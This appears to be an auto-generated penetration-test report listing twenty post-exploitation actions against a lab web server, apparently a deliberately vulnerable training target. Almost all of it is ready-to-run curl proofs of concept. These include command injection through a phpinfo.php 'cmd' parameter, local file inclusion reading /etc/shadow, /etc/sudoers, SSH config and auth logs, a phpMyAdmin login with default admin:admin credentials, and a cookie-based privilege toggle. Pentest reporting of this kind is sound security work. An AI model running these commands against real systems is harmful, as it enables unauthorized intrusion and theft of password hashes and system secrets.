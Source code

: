 # HTTP Post-Exploitation Report - 192.168.1.50

**Target:** 192.168.1.50:80
**Generated:** 2025-09-02 17:17:29

## Executive Summary
- **Total Post-Exploitation Actions:** 20
- **Successful Actions:** 20
- **Failed Attempts:** 0

## Post-Exploitation Results

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** User and group info
- **Proof:** Saved to outputs/rce_user_and_group_info.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=id'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** Current user
- **Proof:** Saved to outputs/rce_current_user.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=whoami'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** System info
- **Proof:** Saved to outputs/rce_system_info.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=uname%20-a'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** Working directory
- **Proof:** Saved to outputs/rce_working_directory.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=pwd'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** Root directory listing
- **Proof:** Saved to outputs/rce_root_directory_listing.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=ls%20-la%20/'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** Users
- **Proof:** Saved to outputs/rce_users.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=cat%20/etc/passwd'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** Groups
- **Proof:** Saved to outputs/rce_groups.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=cat%20/etc/group'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** Top processes
- **Proof:** Saved to outputs/rce_top_processes.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=ps%20aux%20%7C%20head%20-20'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** Listening services
- **Proof:** Saved to outputs/rce_listening_services.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=netstat%20-tuln%20%7C%20head%20-20'`

### RCE Post-Enumeration
- **Target:** 192.168.1.50:80
- **Details:** SUID binaries
- **Proof:** Saved to outputs/rce_suid_binaries.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?cmd=find%20/%20-perm%20-4000%202%3E/dev/null%20%7C%20head%20-20'`

### LFI File Download
- **Target:** 192.168.1.50:80
- **Details:** Downloaded /etc/passwd
- **Proof:** Saved to outputs/lfi_phpinfo_php__etc_passwd.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?file=/etc/passwd'`

### LFI File Download
- **Target:** 192.168.1.50:80
- **Details:** Downloaded /etc/shadow
- **Proof:** Saved to outputs/lfi_phpinfo_php__etc_shadow.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?file=/etc/shadow'`

### LFI File Download
- **Target:** 192.168.1.50:80
- **Details:** Downloaded /etc/hosts
- **Proof:** Saved to outputs/lfi_phpinfo_php__etc_hosts.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?file=/etc/hosts'`

### LFI File Download
- **Target:** 192.168.1.50:80
- **Details:** Downloaded /etc/ssh/sshd_config
- **Proof:** Saved to outputs/lfi_phpinfo_php__etc_ssh_sshd_config.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?file=/etc/ssh/sshd_config'`

### LFI File Download
- **Target:** 192.168.1.50:80
- **Details:** Downloaded /etc/sudoers
- **Proof:** Saved to outputs/lfi_phpinfo_php__etc_sudoers.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?file=/etc/sudoers'`

### LFI File Download
- **Target:** 192.168.1.50:80
- **Details:** Downloaded /var/log/auth.log
- **Proof:** Saved to outputs/lfi_phpinfo_php__var_log_auth.log.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?file=/var/log/auth.log'`

### LFI File Download
- **Target:** 192.168.1.50:80
- **Details:** Downloaded /var/log/syslog
- **Proof:** Saved to outputs/lfi_phpinfo_php__var_log_syslog.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?file=/var/log/syslog'`

### LFI File Download
- **Target:** 192.168.1.50:80
- **Details:** Downloaded /etc/crontab
- **Proof:** Saved to outputs/lfi_phpinfo_php__etc_crontab.txt
- **PoC:** `curl 'http://192.168.1.50/phpinfo.php?file=/etc/crontab'`

### Admin Panel Access
- **Target:** 192.168.1.50:80
- **Details:** Successfully accessed admin panel with admin:admin
- **Proof:** Admin panel accessed: <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en" dir="lt...
- **PoC:** `curl -X POST 'http://192.168.1.50/phpMyAdmin' -d 'username=admin&password=admin'`

### Cookie Toggle (Exploit-driven)
- **Target:** 192.168.1.50:80
- **Details:** Applied Cookie: uid=1; hints-enabled=1; show-hints=1
- **Proof:** Saved with-cookie page to outputs/cookie_toggle_with_cookie.html
- **PoC:** `curl -H 'Cookie: uid=1; hints-enabled=1; show-hints=1' 'http://192.168.1.50/mutillidae/index.php'`

